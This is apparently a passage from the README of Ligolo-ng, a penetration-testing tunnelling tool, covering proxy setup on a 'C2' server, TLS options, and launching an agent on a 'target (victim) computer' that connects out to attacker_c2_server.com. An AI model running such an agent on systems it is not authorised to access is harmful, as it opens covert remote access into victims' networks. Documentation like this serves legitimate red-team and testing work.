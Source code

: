 #### Linux

When using Linux, you need to create a tun interface on the Proxy Server (C2):

```shell
$ sudo ip tuntap add user [your_username] mode tun ligolo
$ sudo ip link set ligolo up
```

#### Windows

You need to download the [Wintun](https://www.wintun.net/) driver (used by [WireGuard](https://www.wireguard.com/)) and place the `wintun.dll` in the same folder as Ligolo (make sure you use the right architecture).

#### Running Ligolo-ng proxy server

Start the *proxy* server on your Command and Control (C2) server (default port 11601):

```shell
$ ./proxy -h # Help options
$ ./proxy -autocert # Automatically request LetsEncrypt certificates
```

### TLS Options

#### Using Let's Encrypt Autocert

When using the `-autocert` option, the proxy will automatically request a certificate (using Let's Encrypt) for *attacker_c2_server.com* when an agent connects.

> Port 80 needs to be accessible for Let's Encrypt certificate validation/retrieval

#### Using your own TLS certificates

If you want to use your own certificates for the proxy server, you can use the `-certfile` and `-keyfile` parameters.

#### Automatic self-signed certificates (NOT RECOMMENDED)

The *proxy/relay* can automatically generate self-signed TLS certificates using the `-selfcert` option.

The `-ignore-cert` option needs to be used with the *agent*.

> Beware of man-in-the-middle attacks! This option should only be used in a test environment or for debugging purposes.
### Using Ligolo-ng


Start the *agent* on your target (victim) computer (no privileges are required!):

```shell
$ ./agent -connect attacker_c2_server.com:11601
```

> If you want to tunnel the connection over a SOCKS5 proxy, you can use the `--socks ip:port` option. You can specify SOCKS credentials using the `--socks-user` and `--socks-pass` arguments.
